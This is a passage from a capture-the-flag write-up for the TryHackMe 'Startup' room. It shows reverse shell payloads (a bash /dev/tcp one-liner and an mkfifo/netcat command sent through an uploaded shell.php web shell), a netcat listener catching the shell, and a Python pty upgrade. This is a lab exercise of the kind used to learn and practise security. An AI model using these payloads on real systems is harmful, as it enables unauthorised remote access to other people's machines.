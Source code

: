 ```console

bash -i >& /dev/tcp/10.10.14.53/9001 0>&1
```
These are the few reverse shell payloads. You can find plenty of them on the internet. Using a single one always might not work, so it is safer to test different ones.

Now we have to catch that reverse shell, so we open up a netcat listener on our box.

### Netcat listener
```console
local@local:~/Documents/tryhackme/startup$ nc -nvlp 9001
Listening on 0.0.0.0 9001
```

We have to replace the IP and ports with our own ip and ports address.

### IP address
```console
local@local:~/Documents/tryhackme/startup$ ifconfig tun0 | grep -i 'inet ' | awk -F' ' '{print $2}'
10.6.31.213
```
### Execution with reverse shell payload
Lets use the first reverse shell payload

```console
local@local:~/Documents/tryhackme/startup$ curl -G --data-urlencode 'cmd=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.6.31.213 9000 >/tmp/f' http://10.10.169.81/files/ftp/shell.php
hello
```
But this didnot work. So, lets try the second one.

![4](/assets/images/thm/startup/4.png)
And if we check our netcat listener, we get a shell back.
```console
local@local:~/Documents/tryhackme/startup$ nc -nvlp 9001
Listening on 0.0.0.0 9001
Connection received on 10.10.169.81 33628
/bin/sh: 0: can't access tty; job control turned off
$ 

```
Now this shell is a bit hard to work with as it is not interactive. It lacks using arrow keys, autocompletion, and using keys like CTRL+C to kill a process. So We have to make this session a interactive session.

## Getting a proper TTY
Now lets get a proper shell with auto completion.

```console
$ python3 -c "import pty;pty.spawn('/bin/bash')"
```
